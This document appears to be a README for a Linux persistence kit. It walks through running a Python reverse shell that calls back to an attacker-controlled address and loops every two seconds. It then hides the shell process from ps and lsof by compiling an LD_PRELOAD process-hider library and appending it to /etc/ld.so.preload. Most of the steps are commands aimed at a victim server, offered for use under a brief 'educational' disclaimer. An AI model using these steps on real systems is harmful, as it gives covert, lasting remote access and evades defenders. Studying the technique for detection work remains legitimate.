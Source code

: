 <h1 style="font-size:10vw" align="center">Linux Persistence Access </h1>
<h2 style="font-size:7vw" align="center"><i>Exploit using Python Reverse Shell</i></h2>
*For educational and authorized security research purposes only*

## Original Exploit Authors
[gianlucaborello](https://github.com/gianlucaborello)
[therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Step Guides

1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change s.connect(("172.16.10.7",2220)) in the shell.py file with the perpetrator's address
3. Change sdregs.connect(("172.16.10.7",9999)) in the loop-shell.py with the perpetrator's address
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "shell.py"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Run shell.py or loop-shell.py:
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
8. And your process will be off the radar 

```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
...

administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
...
```


https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
